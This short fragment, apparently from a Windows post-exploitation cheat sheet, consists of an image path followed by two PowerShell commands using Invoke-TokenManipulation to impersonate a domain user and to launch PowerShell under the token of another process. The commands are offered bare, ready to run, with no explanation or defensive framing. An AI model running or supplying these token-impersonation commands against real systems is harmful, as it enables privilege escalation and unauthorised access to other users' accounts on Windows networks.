 `Invoke-TokenManipulation -ImpersonateUser -UserName "domain\user"`
`Invoke-TokenManipulation -CreateProcess "C:\Windows\System32\WindowsPowerShell\v1.0\PowerShell.exe" -ProcessId 500`
